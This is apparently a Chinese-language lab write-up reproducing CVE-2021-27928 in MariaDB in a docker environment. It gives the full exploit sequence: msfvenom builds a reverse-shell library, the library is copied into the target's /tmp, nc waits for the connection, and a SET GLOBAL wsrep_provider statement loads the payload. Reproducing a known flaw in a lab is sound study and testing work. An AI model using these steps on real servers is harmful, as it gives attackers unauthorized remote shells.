

# MariaDB 命令执行

## 漏洞描述

MariaDB wsrep_provider 命令执行

Version: 
  MariaDB 10.2 before 10.2.37
          
          10.3 before 10.3.28

          10.4 before 10.4.18 

          10.5 before 10.5.9

## 启动

```
docker-compose up -d
```

## writeup

- msf生成反弹shell

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so
```

- 上传到被攻击MariaDB的 /tmp目录下

```
docker cp CVE-2021-27928.so 14:/tmp/CVE-2021-27928.so
```

- 攻击者等待接收反弹shell

```
nc -lvv <port>
```

- 被攻击Marial中执行

```
SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

## 复现结果


